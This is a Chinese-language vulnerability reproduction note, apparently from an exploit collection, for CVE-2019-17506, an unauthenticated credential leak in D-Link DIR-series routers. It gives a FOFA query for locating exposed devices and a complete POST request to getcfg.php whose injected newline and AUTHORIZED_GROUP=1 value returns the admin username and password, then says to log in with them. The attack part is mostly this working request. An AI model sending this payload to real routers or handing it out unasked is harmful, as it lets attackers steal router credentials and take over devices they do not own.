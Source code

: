 # D-Link-Dir-645-getcfg.php-账号密码泄露漏洞-CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

> [!NOTE]
>
> D-Link Dir 系列多个版本

## FOFA

> [!NOTE]
>
> app="D_Link-DIR-868L"

## 漏洞复现

登录页面如下

![](D-Link-Dir-645-getcfg.php-账号密码泄露漏洞-CVE-2019-17506.assets/1627363613009875.jpg)

发送如下请求包

```
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](D-Link-Dir-645-getcfg.php-账号密码泄露漏洞-CVE-2019-17506.assets/16273636134029179.jpg)

获取到路由器账号密码即可登录后台

## Goby & POC

![](D-Link-Dir-645-getcfg.php-账号密码泄露漏洞-CVE-2019-17506.assets/1627363613769449.jpg)

